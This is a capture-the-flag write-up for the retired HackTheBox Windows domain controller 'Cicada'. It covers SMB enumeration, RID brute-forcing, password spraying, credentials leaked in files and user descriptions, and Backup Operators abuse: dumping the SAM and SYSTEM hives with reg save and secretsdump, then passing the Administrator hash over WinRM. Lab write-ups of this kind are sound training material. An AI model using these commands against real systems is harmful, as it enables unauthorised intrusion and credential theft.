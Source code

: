 
# ✨ Cicada — HackTheBox Writeup (Retired)

🌐 **IP:** `10.10.11.35`  
🖥️ **OS:** Windows Server 2022  
🎯 **Difficulty:** easy  
📚 **Category:** Active Directory, Kerberos, SMB, LDAP, WinRM  
👤 **Author:** [theblxckcicada](https://app.hackthebox.com/users/796798)  
🧰 **Tools:** `nmap`, `rustscan`, `nxc`, `crackmapexec`, `smbclient`, `evil-winrm`, `impacket-secretsdump`  
🎓 **Certs:** eCPPTv3, Dante Lab | Preparing for OSCP

---

## 🔍 Initial Enumeration

### 🚀 RustScan
```bash
rustscan -a 10.10.11.35 -- -sV
```

```text
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
61979/tcp open  msrpc         Microsoft Windows RPC
```

🧠 This host is most likely a domain controller for `cicada.htb`.

---

## 📡 DNS Enumeration
```bash
dig any cicada.htb @10.10.11.35
```

🗂️ Records found:
- `A` record for `cicada.htb`
- Nameserver: `cicada-dc.cicada.htb`
- Multiple `AAAA` records

---

## 📂 SMB Share Enumeration

```bash
nxc smb 10.10.11.35 -u x -p '' --shares
```

📁 Shares:
- `HR` (READ)
- `DEV`
- `NETLOGON`
- `SYSVOL`

### 📥 Accessing HR Share
```bash
smbclient -N //10.10.11.35/HR
smb: \> get "Notice from HR.txt"
```

📄 Inside the file:
```
Default password: Cicada$M6Corpb*@Lp#nZp!8
```

---

## 🧑‍💻 User Enumeration

### RID Brute-Force
```bash
nxc smb 10.10.11.35 -u x -p '' --rid-brute
```

🧍 Users:
- michael.wrightson
- sarah.dantelia
- john.smoulder
- david.orelious
- emily.oscars

---

## 🎯 Password Spray

```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

✅ Valid credentials:
- `michael.wrightson`

---

## 💡 Leaked Password in Description

```bash
nxc smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

📌 Found:
```
Just in case I forget my password is aRt$Lp#7t*VQ!3
```

---

## 🔓 Access as david.orelious

```bash
smbclient -U david.orelious \10.10.11.35\DEV
smb: \> get Backup_script.ps1
```

Inside:
```powershell
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
```

---

## 🛠️ WinRM Access as emily.oscars

```bash
evil-winrm -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -i 10.10.11.35
```

👤 Group memberships:
- Backup Operators ✅
- Remote Management Users ✅

---

## 🧪 Privilege Escalation (Backup Privileges)

```powershell
reg save hklm\sam C:\sam.save
reg save hklm\system C:\system.save
```

Download & extract:
```bash
impacket-secretsdump -system system.save -sam sam.save LOCAL
```

NT hash:
```
Administrator:500:...:2b87e7c93a3e8a0ea4a581937016f341:::
```

---

## 🏁 Final Access

```bash
evil-winrm -i 10.10.11.35 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

🎉 Rooted!

---

